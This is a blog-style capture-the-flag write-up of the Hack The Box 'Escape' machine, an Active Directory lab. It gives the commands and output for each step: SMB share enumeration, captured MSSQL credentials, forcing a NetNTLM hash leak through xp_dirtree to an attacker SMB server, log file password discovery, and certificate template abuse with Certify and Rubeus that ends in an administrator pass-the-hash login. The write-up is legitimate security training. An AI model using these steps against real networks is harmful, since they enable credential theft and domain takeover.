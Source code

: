 ```yaml
---
title: "Hack The Box - Escape [Medium]"
category: ctf-writeup
layout: post
---
```


This is a Windows Machine which is part of an Active Directory. I would try my best to explain the stuff that I did, since that I've seen pretty bad write-ups that are not explaining anything. I also want to be honest, and I will link every write-up that I used to exploit the machine. 

I am still learning Active Directory at the time of writing this, so there might be errors, I will do my best to mitigate that!

## Enumerating

I started with a simple `nmap` scan.

```bash
$ nmap -Pn 10.10.11.202
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Now since I am new to Active Directory I turned to https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb to check what I can try.

Eventually, after trying most of them, I landed on `smbclient`

```bash
$ smbclient --no-pass -L 10.10.11.202
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Public          Disk      
SYSVOL          Disk      Logon server share 
```

This is a list of shared folders, the one that we can take a look at is `Public`

```bash
$ smbclient -N //10.10.11.202/Public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

  5184255 blocks of size 4096. 1276406 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (62.8 KiloBytes/sec) (average 62.8 KiloBytes/sec)
```

Opening, the PDF states that we can use `PublicUser:GuestUserCantWrite1` to log in to the SQL Server. We can use the `impacket-mssqlclient` which is a tool 

```bash
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.10.11.202
```

Once I was in I started enumerating the database, looking at this and that, but I had no luck, I turned to some write-ups to follow up.

Now most of the write-ups are just skipping the explanation of this step, but I think that it is really important to know what's going on, so I will do my best to explain it.

Following up this https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack attack, I tried the following thing:

I checked if I can execute `xp_dirtree`:

```SQL
SQL> EXEC sp_helprotect 'xp_dirtree';
Owner    Object                 Grantee        Grantor   ProtectType   Action           Column   

------   --------------------   ------------   -------   -----------   --------------   ------   

sys      xp_dirtree             public         dbo       b'Grant     '   Execute          .        
```

It turns out I can, so to capture the authentication hash, I need to set up an SMB server:

```bash
# My Machine
$ impacket-smbserver -smb2support smb ./smb
```

And then to execute the `xp_dirtree` on the SQL Server

```SQL
SQL> exec master.dbo.xp_dirtree '\\<myIP>\smb'
```

Doing this would catch the `AUTHENTICATE_MESSAGE`, the user and the hash.

```bash
$ impacket-smbserver -smb2support smb ./smb

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,52180)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:84e0a29415d2823f80593c9bc45d158c:010100000000000080fba2b8945ed9010f6267444f7024440000000001001000780056007a005000590061005000570003001000780056007a0050005900610050005700020010006c004f0054006f006f00540076007700040010006c004f0054006f006f005400760077000700080080fba2b8945ed90106000400020000000800300030000000000000000000000000300000c57e7de4e6e8e7baebb297a4bfc1a9019bc96f8f58ffbd9cb233cec428ece87f0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100340032000000000000000000
```

Now I need to crack the hash, I won't post the results here, so you have to figure that one on your own, it is simple enough! :) 

Using the cracked password, I can log in using the `evil-winrm`

```bash
$ evil-winrm --ip 10.10.11.202 --user sql_svc --password $(cat ./password)
```

Now, we need to start enumerating again. I used [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
*Evil-WinRM* PS C:\Users\sql_svc\Documents> upload /home/syl/tools/win/winPEASany.exe
```

I eventually stumbled across interesting files and I've enumerated the users. The interesting file was `C:\SQLServer\Logs\ERRORLOG.BAK` and upon further inspection I've got the password for the user `Ryan.Cooper`.

```bash
$ evil-winrm --ip 10.10.11.202 --user Ryan.Cooper --password $(cat ./password ryan_password)
...
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> gc ../Desktop/user.txt
<user_hash>
```

Now I needed to escalate, I've used this guide for misconfigured certificates that cause AD CS Domain Escalation. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

I've uploaded Certify to the SQL Server (user login) and tried to find vulnerable certificates.

> **NOTE**: Certify is a tool to enumerate and abuse misconfigured AD CS, you can find its source code here: https://github.com/GhostPack/Certify. Unfortunately(or fortunately) there aren't any prebuilt binaries and you have to build it yourself. It is well explained in the README.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe find /vulnerable
...
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
```

With that tool, I found a vulnerable certificate that I can use to impersonate an administrator. Following up the attack on hacktricks:

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

... CERTIFICATE ...

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

I've downloaded the certificate on my machine and ran the command to convert it to `pfx` and I've uploaded it back to the server.

Using another tool called [Rubeus](https://github.com/GhostPack/Rubeus) that I've used to send raw request for a TGT towards the DC.

```powershell
$ ./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /password:123

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\administrator'
[*] Using domain controller: fe80::5438:a078:e66d:b560%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : <NTLM HASH>
```

Now, that gave me the NTLM Hash, which is the cryptographic format in which user passwords are stored on Windows systems.

I can use that with:

```
$ evil-winrm -H "<NTLM HASH>" -u "administrator" -i 10.10.11.202
M* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
<root_hash>
```


# References

- https://blog.zerospl0it.com/posts/Escape/
- https://yu8pentest.blogspot.com/2023/02/escape.html
- https://medium.com/@Kushagra007/writeup-escape-hackthebox-dbee2d761d15
- https://breached.vc/Thread-Escape-HTB-Discussion?highlight=escape
